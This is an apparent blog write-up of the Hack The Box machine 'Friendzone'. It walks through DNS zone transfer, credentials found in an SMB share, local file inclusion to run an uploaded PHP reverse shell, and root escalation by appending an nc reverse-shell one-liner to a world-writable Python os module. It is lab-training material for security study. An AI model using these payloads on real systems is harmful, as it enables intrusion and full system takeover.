+++
title = "Friendzone"
date = 2019-07-11
[taxonomies]
tags = ["hackthebox"]
+++

1. The initial `Nmap` scans shows the following ports opened:
	* 21, 22, 53, 80, 139, 443.

	Lets start with port 80. The site displays a web page that says “Have you ever been friendzoned?” with an image. The source code doesn't show much, it was coded with simple HTML tags.

	`GoBuster` scans shows an accessible `robots.txt` and wordpress file and directory. `robots.txt` doesn't contain anything besides “seriously?!”. The wordpress directory is blank and I began enumerating the directory to see if `gobuster` can find other hidden files/directories.

2. While `gobuster` is running, I'm moving on with enumerating port 53 which is a DNS service. With my limited experience with CTFs so far, I know that when port 53 is open for enumeration, a zone transfer command is required.

	Before I begin running DNS commands to enumerate the service, I have to figure out what is the domain name I am targeting. On the main `index.html` page:

	```shell
	Email us at: info@friendzoneportal.red
	```

	This means our target will be `friendzoneportal.red`. I'll add it to our host file.

	```shell
	10.10.10.123  friendzoneportal.red
	```

	Use dig to see if zone transfer is vulnerable:

	```shell
	dig axfr friendzoneportal.red @10.10.10.123
	```

	

	Looks like it is. Lets try and navigate to each one and see if it will uncover more clues.

3. `https://admin.friendzoneportal.red` is the only URL that is accessible.

	

	I haven't found any clues in regards to possible username and passwords. I tried the guessable combinations but no luck. Source code doesn't show anything interesting.

4. I'm moving to the next service, Samba shares. `Enum4linux` shows the following shares are accessible:

	

	Connecting to the general share shows there is a `creds.txt` file that contains:

	```shell
	creds for the admin THING:

	admin:WORKWORKHhallelujah@#
	```

	I guess this is the credentials I'm looking for the admin panel? Lets try.

	

	Darn, now I'm stuck on what to do here.

5. I guess I have to move to the next service, 443. My `Nmap` scan shows the SSL cert with a domain name that wasn't found on the main page:

	

	`friendzone.red` domain?? I'll have to enumerate this domain using dig after adding the domain to our hosts file.

	

	More domains has been uncovered. Lets see which one of these URLs lead to anything.

	

6. Trying the same login that I found in `creds.txt`, it worked! It page tells us that I should navigate to a `dashboard.php` page that shows:

	

	Navigating to the url shows us this:

	```
	https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=timestamp
	```

	

	I proceeded to try and see if it's vulnerable to LFI/RFI but no luck. See if it's vulnerable to PHP wrappers, no luck.

	

	I began enumerating again using `dirsearch` on `administrator1.friendzone.red`. While that is running, I noticed `https://uploads.friendzone.red/files/` is accessible.

	

	I tried uploading a php file with reverse shell code and a message indicates it has been “uploaded successfully”. I tried the possible ways of accessing this file stored somewhere but no where can be found even through Samba mapping. Is it possible that this form's response is misleading? Pressing the upload button without a file attachment renders “upload successful” message as well. I believe this is a rabbit hole.

7. Going back to `dirsearch` results, it found a `timestamp.php` file. This is the file that renders the timestamp on the dashboard page.

	After reading through my nmap scripts carefully, I noticed that the smb script found the paths where the file are being stored. The `development` share shows that the files are stored at `/etc/Development` folder.

	

	I guess I can try to upload my reverse shell to development shared folder and try to LFI the path? I figure this would be a good guess because I know that the dashboard page tells us to load parameters to render the images and timestamp. I can only guess that the “pagename=” parameter can load other files.

	```shell
	smbclient //10.10.10.123/development
 
	put rs.php
	```

	Navigating the url:

	```
	https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/rs.php
	```

	Nada. Not sure why it's not working. Taking a step back, look at how “timestamp” loads in the parameter, it doesn't use a .php extension. Lets try without the php extension.

	```
	https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/rs
	```

	Tada, a successful low privilege shell to obtain user flag.

	

### Privilege Escalation

1. Ran the standard `linenum` and `linuxprivchecker` scripts, I noticed something unusual with this python script:

	

	Why would an OS python module require 777? I'll take a note of this just in case I need it.

2. While I'm digging through this system and see if there are useful information to be found, I located this credential file at `/var/www/mysql_data.conf`.

	

	I tried using this credential to log into SSH and indeed it works. Full user shell has been achieved.

3. After spending some time on the system, I don't see anything else that immediately stands out. Time to run `pspy64` and see what is running on the background.

	After waiting awhile, I noticed there is a python scripts that runs as `UID=0` which is root account.

	

4. Taking a look at what the `reporter.py` script is about, it's' importing the OS module as seen earlier.

	

	This is our ticket to run as root privileges as all I have to do is inject code into the `os.py` module as I have full privileges to the file and the `reporter.py` script doesn't.

5. Inject this code at the very end of the `os.py` file.

	```python
	system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 4444 >/tmp/f')
	```

6. Wait for the cronjob to run and you should be able to get the reverse shell and obtain the root flag.

	

	
